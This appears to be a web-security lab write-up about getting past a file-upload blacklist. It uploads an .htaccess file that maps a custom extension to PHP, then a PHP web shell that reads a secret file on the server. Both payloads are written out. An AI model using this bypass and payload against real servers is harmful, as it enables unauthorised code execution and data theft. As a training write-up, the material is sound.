







# Lab - 04: Web shell upload via extension blacklist bypass
Difficulty: Practitioner
Category: File Upload / Configuration Bypass

# Description
The server employs a blacklist to prevent the upload of .php files. However, the server configuration allows for the upload and override of .htaccess files, which can be used to map a non-blacklisted extension to the PHP MIME type.

# Methodology
1. Initial Access: Authenticated as wiener:peter.
2. Bypass Identification: Attempting to upload .php results in a "Security" error. However, the server does not block .htaccess.
3. Exploitation (Phase 1):
- Uploaded an .htaccess file containing: AddType application/x-httpd-php .hacker.
- This instructs the Apache server to treat files with the .hacker extension as executable PHP scripts.
4. Exploitation (Phase 2):
- Uploaded exploit.hacker containing the PHP exfiltration payload.
5. Exfiltration: Accessed /files/avatars/exploit.hacker, triggering the server to execute the code and return the contents of /home/carlos/secret.

# Payload 1 (.htaccess)
```apache
AddType application/x-httpd-php .hacker
```

# Payload 2 (exploit.hacker)
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

# Screenshots






